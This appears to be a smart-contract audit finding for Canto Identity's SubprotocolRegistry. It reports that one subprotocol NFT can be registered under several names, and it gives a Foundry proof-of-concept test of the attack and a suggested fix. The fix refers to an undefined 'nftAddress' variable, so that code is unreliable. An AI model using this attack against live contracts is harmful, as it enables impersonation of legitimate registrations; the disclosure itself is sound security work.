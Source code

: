 # Subprotocol NFT can be registered again under a different name

The `SubprotocolRegistry` contract allows subprotocol owners to register their subprotocol NFT under a name.

Despite frontrunning issues described in the contest, the same subprotocol NFT can be registered again under a different name, as there is no check to verify if a subprotocol NFT has been already registed.

## Impact

A bad actor can re-register an already registered subprotocol NFT. Even though this requires the registered name to be different, it is possible to register the same subprotocol NFT contract to trick others into thinking this is the proper registration for the subprotocol.

The `register` function present in the `SubprotocolRegistry` doesn't check that the `_nftAddress` has been previously registered as a subprotocol, and allows for a bad actor to register a subprotocol under the same `_nftAddress` as previously registered subprotocol.

https://github.com/code-423n4/2023-01-canto-identity/blob/main/src/SubprotocolRegistry.sol#L79-L101

```solidity
function register(
    bool _ordered,
    bool _primary,
    bool _active,
    address _nftAddress,
    string calldata _name,
    uint96 _fee
) external {
    SafeTransferLib.safeTransferFrom(note, msg.sender, cidFeeWallet, REGISTER_FEE);
    if (!(_ordered || _primary || _active)) revert NoTypeSpecified(_name);
    SubprotocolData memory subprotocolData = subprotocols[_name];
    if (subprotocolData.owner != address(0)) revert SubprotocolAlreadyExists(_name, subprotocolData.owner);
    subprotocolData.owner = msg.sender;
    subprotocolData.fee = _fee;
    if (!ERC721(_nftAddress).supportsInterface(type(CidSubprotocolNFT).interfaceId))
        revert NotASubprotocolNFT(_nftAddress);
    subprotocolData.nftAddress = _nftAddress;
    subprotocolData.ordered = _ordered;
    subprotocolData.primary = _primary;
    subprotocolData.active = _active;
    subprotocols[_name] = subprotocolData;
    emit SubprotocolRegistered(msg.sender, _name, _nftAddress, _ordered, _primary, _active, _fee);
}
```

## PoC

In the following test, an attacker registers an already registered subprotocol created by Alice.

```solidity
contract Note is ERC20 {
    constructor() ERC20("Note", "NOTE", 18) {}

    function mint(address account, uint256 amount) external {
        _mint(account, amount);
    }
}

contract AuditTest is DSTest {
    Vm internal immutable vm = Vm(HEVM_ADDRESS);

    string internal constant BASE_URI = "tbd://base_uri/";

    address feeWallet;
    address alice;
    address bob;
    address attacker;

    Note note;
    SubprotocolRegistry subprotocolRegistry;
    CidNFT cidNFT;
    SubprotocolNFT sub1;
    SubprotocolNFT sub2;
    AddressRegistry addressRegistry;

    function setUp() public {
        feeWallet = vm.addr(0x1);
        alice = vm.addr(0x2);
        bob = vm.addr(0x3);
        attacker = vm.addr(0x4);

        note = new Note();
        subprotocolRegistry = new SubprotocolRegistry(address(note), feeWallet);
        cidNFT = new CidNFT(
            "MockCidNFT",
            "MCNFT",
            BASE_URI,
            feeWallet,
            address(note),
            address(subprotocolRegistry)
        );
        sub1 = new SubprotocolNFT();
        sub2 = new SubprotocolNFT();
        addressRegistry = new AddressRegistry(address(cidNFT));
    }
    
    function test_SubprotocolRegistry_ReRegisterSubprotocolNFT() public {
        note.mint(alice, 100 * (10**18));
        note.mint(attacker, 100 * (10**18));

        // Setup
        vm.startPrank(alice);

        // Alice registers subprotocol
        note.approve(address(subprotocolRegistry), type(uint256).max);
        subprotocolRegistry.register(
            true,
            true,
            true,
            address(sub1),
            "sub1",
            0
        );

        vm.stopPrank();

        // Attack
        vm.startPrank(attacker);

        // Attacker registers same subprotocol NFT under a different name
        note.approve(address(subprotocolRegistry), type(uint256).max);
        subprotocolRegistry.register(
            true,
            true,
            true,
            address(sub1),
            "sub1-duplicate",
            0
        );

        vm.stopPrank();
    }
}
```

## Recommendation

Keep track of registered subprotocol NFTs and check if it was already registered during the call to `register`:

```solidity
  contract SubprotocolRegistry {
      ...
+     mapping(address => bool) private registered;
      ...
      
      function register(
          bool _ordered,
          bool _primary,
          bool _active,
          address _nftAddress,
          string calldata _name,
          uint96 _fee
      ) external {
          SafeTransferLib.safeTransferFrom(note, msg.sender, cidFeeWallet, REGISTER_FEE);
          if (!(_ordered || _primary || _active)) revert NoTypeSpecified(_name);
          SubprotocolData memory subprotocolData = subprotocols[_name];
          if (subprotocolData.owner != address(0)) revert SubprotocolAlreadyExists(_name, subprotocolData.owner);
          subprotocolData.owner = msg.sender;
          subprotocolData.fee = _fee;
+         if (registered[nftAddress])
+             revert SubprotocolNFTAlreadyRegistered(_nftAddress);
          if (!ERC721(_nftAddress).supportsInterface(type(CidSubprotocolNFT).interfaceId))
              revert NotASubprotocolNFT(_nftAddress);
          subprotocolData.nftAddress = _nftAddress;
          subprotocolData.ordered = _ordered;
          subprotocolData.primary = _primary;
          subprotocolData.active = _active;
          subprotocols[_name] = subprotocolData;
+         registered[nftAddress] = true;
          emit SubprotocolRegistered(msg.sender, _name, _nftAddress, _ordered, _primary, _active, _fee);
      }
  }
```

